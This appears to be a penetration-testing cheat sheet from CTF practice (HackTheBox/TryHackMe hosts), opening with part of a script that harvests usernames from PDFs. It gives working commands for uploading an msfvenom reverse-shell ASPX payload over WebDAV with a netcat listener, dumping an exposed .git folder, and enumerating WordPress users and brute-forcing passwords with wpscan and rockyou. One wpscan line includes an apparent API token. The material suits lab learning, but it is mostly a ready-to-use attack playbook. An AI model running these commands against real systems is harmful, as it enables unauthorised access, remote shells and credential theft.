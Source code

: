 ```
            print(f"Error processing PDF at {url}: {e}")
        
    else:
        print(f"Failed to retrieve PDF at {url}. Status code: {resp.status_code}")
    
    t += datetime.timedelta(days=1)
    if t >= end:
        break

# Print users to console
print("Users found:")
for user in users:
    print(user)

# Write users to users.txt
with open('users.txt', 'w') as f:
    f.write('\n'.join(users))

print(f"Found and processed {pdf_count} PDFs.")
print("Users written to users.txt")
```

WebDav
- if nmap scan returns `http-webdav-scan` on http port:
```
cadaver http://192.168.219.122
```
- may be prompted for creds
```
put test.txt
```
- create beforehand `echo "test" > test.txt`
- navigate to hxxp://ip:port/test.txt to see if file executes
	- if so, set up listener `nc -lvnp 80` and rev shell (if windows DC and website running IIS, likely x64 system):
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.219 LPORT=80 --platform Windows -a x64 -f aspx -o shell.aspx
```
- on cadaver shell, upload to site `put shell.aspx`
```
curl http://192.168.219.122/shell.aspx
```

after adding pilgrimate.htb to /etc/hosts and rescanning with nmap should see http-git
- http-git:
	10.129.32.46:80/.git/
```
git-dumper http://pilgrimage.htb git
```
- download the .git folder

## Wordpress
```
wpscan --url http://internal.thm/blog -e u
```
- enumerate users
```
wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt
```
- bruteforce passwords
```
wpscan --url http://10.10.83.3:80/webservices/wp -e ap --plugins-detection aggressive --api-token xLbPu8UpTv2bEWHfDPm8XaQNgO08WsDYjaqJH9bdaQM
```
- `-e ap` enumerates all plugins
